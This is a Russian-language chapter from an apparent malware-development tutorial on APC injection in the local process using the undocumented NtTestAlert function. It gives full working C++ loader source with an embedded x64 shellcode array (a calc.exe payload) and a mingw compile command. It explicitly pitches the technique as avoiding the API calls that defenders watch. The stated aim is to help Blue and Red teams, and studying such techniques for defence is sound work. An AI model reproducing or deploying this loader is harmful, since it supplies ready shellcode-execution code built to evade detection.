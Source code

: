 \newpage
\subsection{14. APC инъекция с помощью NtTestAlert. простое вредоносное ПО на C++.}

﷽

![APC injection](./images/22/2021-11-21_13-18.png){width="80%"}    

В предыдущем разделе я писал о технике APC injection "Early Bird".

В этом разделе я расскажу о другой технике APC injection. Её суть заключается в использовании недокументированной функции `NtTestAlert`. Я покажу, как выполнить shellcode в локальном процессе, используя Win32 API `QueueUserAPC` и официально недокументированный Native API `NtTestAlert`.

### NtTestAlert

**NtTestAlert** — это системный вызов, связанный с механизмом оповещений Windows. Этот системный вызов может привести к выполнению всех ожидающих APC в потоке. Перед тем как поток начинает выполнять свою стартовую функцию в Win32, он вызывает `NtTestAlert` для выполнения всех ожидающих APC.

### Пример

Давайте рассмотрим исходный код нашего вредоносного C++-приложения:

```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(
    GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), 
  my_payload_mem, my_payload, 
  my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)
  my_payload_mem;
  QueueUserAPC(
    (PAPCFUNC)apcRoutine, 
    GetCurrentThread(), NULL
  );
  testAlert();

  return 0;
}
```

Для простоты в качестве полезной нагрузки мы используем 64-битный `calc.exe`.    

Алгоритм этой техники прост. Сначала мы выделяем память в локальном процессе для нашего payload:    

![APC injection 1](./images/22/2021-11-21_13-49.png){width="80%"}    

Затем записываем наш payload в только что выделенную память:    

![APC injection 2](./images/22/2021-11-21_13-50.png){width="80%"}    

Далее добавляем APC в очередь текущего потока:    

![APC injection 3](./images/22/2021-11-21_13-52.png){width="80%"}    

Наконец, вызываем `NtTestAlert`:    

![APC injection 4](./images/22/2021-11-21_13-53.png){width="80%"}    

Давайте скомпилируем наш код:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
 -I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

![APC injection 5](./images/22/2021-11-21_13-58.png){width="80%"}    

Запускаем на целевой машине (в моем случае Windows 7 x64):   

![APC injection 6](./images/22/2021-11-21_14-03.png){width="80%"}    

Если открыть наш `hack.exe` в `Ghidra`:    

![APC injection 7](./images/22/2021-11-21_15-12.png){width="80%"}    

Вызов функции `NtTestAlert` не выглядит подозрительным. Преимущество этой техники в том, что она не использует API-вызовы `CreateThread` или `CreateRemoteThread`, которые более распространены, подозрительны и чаще анализируются специалистами Blue Team.

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[исходный код на Github](https://github.com/cocomelonc/2021-11-20-injection-4)    

Надеюсь, этот раздел поможет специалистам Blue Team лучше понимать данную технику, а для Red Team станет дополнительным инструментом в их арсенале.   
